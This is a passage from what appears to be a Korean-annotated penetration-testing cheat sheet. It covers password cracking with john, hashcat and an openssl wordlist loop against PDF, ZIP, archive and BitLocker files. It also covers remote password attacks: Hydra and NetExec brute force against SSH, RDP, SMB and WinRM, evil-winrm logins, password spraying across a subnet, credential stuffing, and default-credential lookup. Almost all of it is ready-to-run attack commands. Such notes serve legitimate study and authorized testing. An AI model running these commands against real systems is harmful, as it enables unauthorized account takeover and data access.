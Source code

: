 john --wordlist=rockyou.txt pdf.hash
```

### Cracking ZIP
```
zip2john ZIP.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
```

### Cracking OpenSSL Encrypted Archives (예 : .gzip)
```
file GZIP.gzip 
for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in GZIP.gzip -k $i 2>/dev/null| tar xz;done
```

### Cracking BitLocker Encrypted Drives
```
bitlocker2john -i Backup.vhd > backup.hashes
grep "bitlocker\$0" backup.hashes > backup.hash
hashcat -m 22100 backup.hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt -o backup.cracked
```

<br/><br/>
# 4. Remote Password Attacks

### NetExec(CrackMapExec) - WinRM
```netexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>```<br/>
예) ```netexec winrm 192.168.1.1 -u user.list -p password.list```

### Evil-WinRM
```evil-winrm -i <target-IP> -u <username> -p <password>```<br/>
예) ```evil-winrm -i 192.168.1.1 -u user -p password```

### Hydra - SSH
```hydra -L user.list -P password.list ssh://192.168.1.1```

### Hydra - RDP
```hydra -L user.list -P password.list rdp://192.168.1.1```

### Hydra - SMB
```hydra -L user.list -P password.list smb://192.168.1.1```

### MSF - SMB (SMBv3)
```msf6 > use auxiliary/scanner/smb/smb_login```

### NetExec(CrackMapExec) - SMB Share
```crackmapexec smb 192.168.1.1 -u "user" -p "password" --shares```

### Smbclient
```smbclient -U user \\\\192.168.1.1\\SHARENAME```

<br/><br/>
# 5. Password 재사용 / 기본 Passwords

### Password spraying
```$ netexec smb 10.100.38.0/24 -u <usernames.list> -p 'ChangeMe123!'```

### Credential Stuffing - Hydra
```$ hydra -C <user_pass.list> <protocol>://<IP>```

### Default Credentials
```
$ pip3 install defaultcreds-cheat-sheet
$ creds search linksys
```
```